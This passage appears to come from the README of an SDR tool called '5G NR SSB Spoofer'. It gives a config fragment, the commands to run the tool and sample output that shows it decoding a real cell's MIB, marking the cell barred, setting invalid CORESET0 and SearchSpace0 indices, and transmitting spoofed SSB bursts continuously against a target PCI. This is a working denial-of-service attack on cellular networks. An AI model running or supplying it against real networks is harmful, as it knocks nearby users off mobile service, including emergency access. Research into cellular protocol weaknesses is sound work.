 ```yaml
  coreset0_idx_value: 15    # Invalid CORESET0 index
  continuous_tx: true       # Continuous transmission mode
```

### Frequency Configuration

To target a specific 5G cell, configure the center frequency based on your target band:

## Usage Instructions

### Basic Operation

```bash
cd build/SSB-Spoofer
./ssb_spoofer --config ../../config.yaml
```

The tool will:
1. **Initialize SDR hardware** and configure RF parameters
2. **Scan for target SSB** signals at the specified frequency
3. **Decode MIB information** from the legitimate signal
4. **Apply attack modifications** to MIB parameters
5. **Generate and transmit** spoofed SSB signals continuously

### Sample Output

```
=== 5G NR SSB Spoofer ===

=== Starting SSB Scan ===
Target PCI: 500

✓ SSB Found!
  PCI: 500
  SSB Index: 0
  SNR: 24.7 dB
  RSRP: -21.2 dBm

=== MIB Information ===
  SFN: 913
  Cell Barred: No
  CORESET0 Index: 6
  SearchSpace Zero Index: 0

=== Modifying MIB for SSB Spoofing Attack ===
  [ATTACK] Cell Barred: false -> true (UE will reject this cell)
  [ATTACK] CORESET0 Index: 6 -> 15 (invalid PDCCH config)
  [ATTACK] SearchSpace0 Index: 0 -> 15 (invalid SIB1 search space)

=== Starting Continuous SSB Spoofing Attack ===
Target: PCI 500
Press Ctrl+C to stop...

[ATTACK] 1000 bursts transmitted (1s elapsed)
[ATTACK] 2000 bursts transmitted (2s elapsed)
...
```
